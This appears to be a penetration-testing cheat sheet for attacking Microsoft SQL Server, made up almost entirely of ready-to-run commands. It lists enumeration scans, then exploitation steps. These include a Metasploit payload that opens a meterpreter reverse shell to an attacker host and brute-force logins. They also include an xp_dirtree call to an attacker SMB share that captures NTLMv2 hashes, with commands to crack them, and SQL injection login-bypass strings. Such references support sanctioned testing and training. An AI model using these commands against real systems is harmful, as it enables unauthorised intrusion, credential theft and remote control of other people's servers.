 # SQL

## Enumeration

### Metasploit

##### mssql_ping
```bash
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS [IP]
set RPORT 1433
run
```

##### mssql_enum
```bash
use auxiliary/scanner/mssql/mssql_enum
set RHOSTS [IP]
set RPORT 1433
run
```

### Nmap

##### nmap (SQL Server version detection)
```bash
nmap -p 1433 --script=ms-sql-info [IP]
```

##### nmap (SQL Server brute-force)
```bash
nmap -p 1433 --script=ms-sql-brute [IP]
```

##### nmap (SQL Server OS Fingerprint)
```bash
nmap -p 1433 --script=ms-sql-os-fingerprint [IP]
```

### sqlcmd

##### sqlcmd (Check SQL Server connection)
```bash
sqlcmd -S [IP],1433 -U [username] -P [password]
```

### Enum4Linux

##### enum4linux (Check for MSSQL Server)
```bash
enum4linux -S [IP]
```

### SQLPing

##### sqlping (Ping SQL Server)
```bash
sqlping [IP]
```

### SQSH

##### sqsh (Connect to SQL Server)
```bash
sqsh -S [IP] -U [USER]
```


---
---


## Exploitation

### Metasploit

##### mssql_payload
```bash
use exploit/windows/mssql/mssql_payload
set RHOSTS [IP]
set RPORT 1433
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```

##### mssql_sql_attack
```bash
use exploit/windows/mssql/mssql_sql_attack
set RHOSTS [IP]
set RPORT 1433
set SQLINJECTION [payload]
run
```

### Nmap

##### nmap (SQL Server brute-force login)
```bash
nmap -p 1433 --script=ms-sql-brute --script-args userdb=[userlist],passdb=[passlist] [IP]
```

### sqlmap

##### sqlmap (SQL Injection attack)
```bash
sqlmap -u http://[IP]/[path] --risk=3 --level=5 --threads=10 --dbs
```

### Windows Auth Hash
-  Setup Attacker Share
```sh
sudo impacket-smbserver [SHARE] /mnt/[Share]
```

- Start Responder
```sh
sudo responder -I tun0
```

- Send NTLMv2 Hash
```sh
xp_dirtree "\\[IP]\[SHARE]"
```

##### Crack NTLMv2:
```sh
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
```sh
hashcat -m 5600 -a 3 hashes.txt
```

### SQL Injection

##### Line Comments
```sh
admin' or '1'='1
```
```sh
' or '1'='1'-- -
```
```sh
' or 1=1 -- -
```
```sh
' or 1=1#
```
```sh
admin" --
```
```sh
admin" #
```
```sh
SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'
```

